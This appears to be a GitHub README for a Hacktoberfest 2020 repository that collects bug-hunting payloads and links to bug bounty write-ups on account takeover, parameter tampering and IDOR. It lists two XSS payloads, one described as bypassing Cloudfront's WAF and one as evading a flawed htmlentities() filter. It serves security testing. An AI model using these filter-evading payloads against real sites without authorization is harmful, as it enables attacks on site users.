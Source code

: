 <center><img src="https://hacktoberfest.digitalocean.com/assets/h-dark-d1a5f262f5aa5936d3bc526365938d98f3946e669f6e2cd9ae1e7a848c57e351.svg" alt="drawing" width="200"/></center>

# Hacktoberfest 2020

Hacktoberfest® is open to everyone in our global community. Whether you’re a developer, student learning to code, event host, or company of any size, you can help drive growth of open source and make positive contributions to an ever-growing community. All backgrounds and skill levels are encouraged to complete the challenge.

- Hacktoberfest is a celebration open to everyone in our global community.
- Pull requests can be made in any GitHub-hosted repositories/projects.
- You can sign up anytime between October 1 and October 31.
## Let's contribute the easy way

For this time I will try to fill in the repo with a payload related to Bug Hunting, you can add it to participate in the Hacktoberfest 2020 event and also make it easier for other Bug Hunters to handle problems such as payloads being blocked by WAF and others by adding your payload in a new file with the format shown below.

## Payload List
##### XSS Bypass Cloudfront WAF By Noobsec
```html
x"><--<img src= "><details/open/ontoggle=alert(`mindbl0w@bugcrodninja.com`)>> --!>=
```
---
##### XSS Bypass htmlentities() [bad implementation case]
```html
%2522%253E%253Csvg%252Fonload%253Dalert%25281%2529%253E
```
---

## Writeup List
##### No Rate Limiting to Bypass Phone Verification
- [Account Takeover ~ Yasuyadav](https://medium.com/@vasuyadav0786/5-ways-to-do-ato-in-a-single-website-cfe7e5da987e)
---
- [Parameter Tampering ~ Suneets1ngh](https://medium.com/@suneets1ngh/parameter-tampering-ddd9b3de0da8)
---
- [IDOR ~ bugbountywriteup](https://medium.com/bugbountywriteup/pii-leakage-via-idor-weak-passwordreset-full-account-takeover-58d159f88d73)
---
## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
